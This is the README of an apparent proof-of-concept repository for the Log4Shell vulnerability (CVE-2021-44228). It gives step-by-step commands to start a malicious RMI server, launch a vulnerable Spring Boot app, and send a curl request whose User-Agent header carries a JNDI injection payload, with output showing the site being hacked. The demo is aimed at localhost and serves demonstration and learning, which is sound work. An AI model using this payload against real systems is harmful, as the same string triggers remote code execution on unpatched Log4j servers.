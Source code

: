 <img src="log4jshell.png" alt="Log4jShell" align="right" style="width: 250px;">

# Demonstration of the Log4jShell Exploit

This code may contain malware and is known to contain vulnerabilities. 
Use at your own risk - if you use it, be advised to do that in a VM  - discard the VM after use.

# log4shell-poc

This is a proof of concept for the Log4j vulnerability (CVE-2021-44228), that works by evaluating an expression that pulls external code via JNDI over RMI.

It leverages Log4j 2.5.7 from spring-boot-starter-log4j2

This repository and the exploit is heavily inspired by [Labout/log4shell-rmi-poc](https://github.com/Labout/log4shell-rmi-poc), but updated and adopted to modern Java versions.

## Requirements:

No requirements, except Java.
The code has been tested with Java 8 (JDK 1.8.0_25), Java 11 (JDK 11.0.1) and Java 19 (openjdk 19.0.2)

## How to run the POC

### 1. Clone the repo:

```bash
git clone https://github.com/rhuss/log4shell-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd inject-server
./startRmiServer.sh 
```

You should get something like this:

```
a target/classes/static
a target/classes/static/index.html
a target/classes/static/img
a target/classes/static/img/wc.png
Starting malicious RMI Server
Creating evil RMI registry on port 1099
Bind remote exploit to 'WannaCry'
```

### 3. Start the vulnerable Log4j application (a simple spring boot application)

In a new Terminal 

```bash
cd vulnerable-app
./startVulnerableService.sh
```

### 4. Show the original site (a dummy web-site)

```bash
open http://localhost:8080
```

The original website is opened in your browser.


### 5. Inject a vulnerable JNDI over the "User-Agent" header 

```bash
curl http://localhost:8080 --header 'User-Agent: ${jndi:rmi://127.0.0.1:1099/WannaCry}'
```

The website gets updated with the data provided from malicious RMI server that has been started in the first step.

> [!NOTE]
> To protect against real exploitation, this must be done from a client located at 127.0.0.1.

### 6. Show the now hacked site

```bash
open http://localhost:8080
```

(or just reload the previous page in your browser). The hacked website is returned.

## References 

* https://github.com/Labout/log4shell-rmi-poc
* https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
* https://www.lunasec.io/docs/blog/log4j-zero-day/

